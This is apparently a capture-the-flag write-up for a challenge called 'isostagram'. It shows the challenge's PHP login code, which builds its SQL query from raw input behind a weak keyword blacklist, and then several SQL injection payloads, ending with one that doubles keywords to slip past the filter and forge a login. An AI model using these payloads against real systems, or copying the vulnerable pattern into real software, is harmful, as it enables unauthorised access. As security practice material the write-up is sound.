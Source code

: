 # isostagram
`kita0421`

- php src
```php

$host = 'isostagram_db';
$dbuser = 'MYSQL_USER';
$dbpassword = 'MYSQL_PASSWORD';
$dbname = 'ctf_users';
$link = mysqli_connect($host, $dbuser, $dbpassword, $dbname);

$loginStatus = NULL;
$username = $_POST['username'];
$password = $_POST['password'];

if (isset($username) && isset($password)) {
    error_log('POST: [' . $username . '] [' . $password . ']');
    if ($link) {
        $blacklist = array("union", "select", "where", "and", "or");
        $replace = array("", "", "", "", "");
        $username = str_ireplace($blacklist, $replace, $username);
        $password = str_ireplace($blacklist, $replace, $password);
        $sql = "SELECT * FROM users WHERE `username` = '$username' AND `password` = '$password';";
        $query = mysqli_query($link, $sql);
        @$fetchs = mysqli_fetch_all($query, MYSQLI_ASSOC);
        if (@count($fetchs) > 0) {
            foreach ($fetchs as $fetch) {
                if ($fetch["username"] === 'kita0421' && $fetch["password"] === $password) {
                    $loginStatus = True;
                    break;
                }
                $loginStatus = False;
            }
        } else {
            $loginStatus = False;
        }
    } else {
        $loginStatus = NULL;
    }
} else {
    $loginStatus = NULL;
}
```

# ref 
[link](https://blog.csdn.net/qq_23667585/article/details/127213099?spm=1001.2101.3001.6650.3&utm_medium=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&depth_1-utm_source=distribute.pc_relevant.none-task-blog-2~default~YuanLiJiHua~Position-3-127213099-blog-88721329.pc_relevant_recovery_v2&utm_relevant_index=4)
# payload
1. didn't work
```SQL
' O/**/R '1' = '1; UPDATE users SET `password`= '123' WH/**/ERE `username` = 'kita0421';--

```
2. didn't work
```SQL
1' OORR '1' = '1' limit 1; --
```
3. didn't work
```SQL
' UORNION select '0','kita0421','1';--
' UORNION select 'kita0421','1','0';--
' UORNION select 'kita0421','1';--
```
4. worked!!!!!!
```sql
--                     id account   pw
-1' UORNION SORELECT 0,'kita0421','pass';#
```